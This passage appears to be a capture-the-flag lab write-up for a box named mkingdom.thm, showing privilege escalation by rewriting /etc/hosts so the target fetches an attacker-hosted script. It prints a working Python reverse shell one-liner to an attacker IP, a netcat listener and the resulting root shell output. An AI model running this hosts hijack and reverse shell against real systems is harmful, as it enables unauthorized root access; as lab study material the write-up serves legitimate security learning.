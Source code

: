 we can modify the box's DNS entry for mkingdom.thm in /etc/hosts

setup a SED command to switch the box's ip address with our own

```
cp /etc/hosts /tmp/hosts.bak
```

```
sed 's/127\.0\.1\.1\s*mkingdom\.thm/10.6.24.127   mkingdom.thm/g' /etc/hosts > /tmp/replace_hosts
```

```
cat /tmp/replace_hosts > /etc/hosts
```


our reverse shell on our machine

```
mkdir app; mkdir app/castle; mkdir app/castle/application;
```

```
nano app/castle/application/counter.sh
```

paste into the script

```
export RHOST="10.6.24.127";export RPORT=1341;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

start a listener

```
nc -lvnp 1341
```

start an http server on port 80 in directory relative to app

```
python3 -m http.server 85
```


```
listening on [any] 1341 ...
connect to [10.6.24.127] from (UNKNOWN) [10.10.210.78] 41420
# whoami
whoami
root
# sudo -l
sudo -l
Matching Defaults entries for root on mkingdom:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    pwfeedback

User root may run the following commands on mkingdom:
    (ALL : ALL) ALL
# 
```
